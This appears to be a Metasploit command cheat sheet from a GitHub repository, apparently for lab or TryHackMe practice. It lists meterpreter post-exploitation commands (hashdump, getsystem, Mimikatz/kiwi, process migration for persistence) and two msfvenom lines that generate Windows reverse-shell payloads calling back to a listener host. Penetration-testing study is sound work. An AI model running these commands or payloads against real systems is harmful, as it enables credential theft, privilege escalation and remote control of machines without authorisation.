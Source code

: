 # Metasploit Command Syntax

<p align="center"><img alt="Metasploit Logo" src="https://miro.medium.com/v2/resize:fit:1400/1*waFDh88WH0YeIK3xMP6TjA.png" width=500 /></p>

However, with many different commands and terminals this can become quite difficult and time consuming. 

</br>

## Main commands to use MetaSploit

```
search                 > Look for a module to use
use                    > Load the specific module
options                > View any options you need to set
set <options>          > Set the specified option
run                    > Run the exploit
exploit                > Run the exploit
```

<br>

## Other usefull commands

> [!NOTE]
> Some of these commands can only be used after a (meterpreter) shell has been made to another machine. These will be marked with a 💲. Others must be used outside of these shells.

#### 💲 Information gathering

```
getuid                 > Get the current user
getprivs               > Get the priveleges for the current user
sysinfo                > Get info on the system
```

#### 💲 Kiwi/Mimikatz can be loaded into the session

```
load kiwi              > help now shows more commands
```

#### 💲 Menu, go back to from session

```
background
```

#### 💲 Move/migrate to another process (for priveleges)

```
migrate -N <process name>
```

#### 💲 Passwords

```
hashdump                > Dumps all the hashes available on a computer when the required priveleges are met.
```

#### Payloads

```
show payloads           > When a module is selected it will list compatible payloads
set payload <id>        > Selects the listed payload with the corresponding number.
set payload <name>      > Selects the payload with the corresponding name.
```

#### 💲 Privelege escalataion (for Windows at least)

```
getsystem               > when in a meterpreter session
```

#### 💲 Quiting or closing a session

```
quit 				
```

#### Search exploits

```
use post/multi/recon/local_exploit_suggester        > Can be used to find any vulnerabilities on the system. Does need an active session.
```

#### Searching for modules

```
search <keyword 1> <kayword 2> ...
```

#### Sessions

```
sessions                > show all
sessions -i <id>        > select and go to session
sessions -u             > upgrade shel to meterpreter shell
sessions -k <id>        > kill selected session
```

#### 💲 Shell creation after exploiting

```
shell                             > 
```

#### Shell conversion to Meterpreter

```
post/multi/manage/shell_to_meterpreter          > Converts a regular shell to a meterpreter session
```

#### Show various possibilities (payloads/exploits etc.)

```
show payloads                      > show payloads
show exploits                      > show exploits
show -h                            > show help
```

## Metasploit Module

Some usefull modules that can be used in Metasploit.

```
run post/windows/manage/migrate
> Run the migrate module that can be used to inject into another process to create persistence
```

<br>

##  MSFVenom Commands

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.18.78.136 LPORT=443 -b '\x0a\x0d\x00' -f c

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

🔰 msfvenom argument | ℹ️ Function
-- | --
**`-l / --list formats`** | Show all available formats
**`-l / --list payloads`** | Show all available payloads
**`-e`** | Specifies the encoding format
**`-f`** | Specifies the output format (extension)
**`-o`** | Specifies the output location

<br>

## Database/workspaces

#### Outside of Metasploit

```
systemctl start postgresql      > Start postgreSQL used by Metasploit
sudo msfdb init                 > start Metasploit database
```

#### Inside metasploit

```
db_status                       > Check database status
```

#### Workspaces

```
workspace                       > List workspaces
workspace -a tryhackme          > Add workspace
workspace default               > Select workspace
```

```
set hosts -R                    > Setting an RHOSTS options as the one stored in the database
```



<!--- 

💲 ❕ ➡️

## TITLE

### Usefull documentation

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

### Related tools

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

<br>

--->
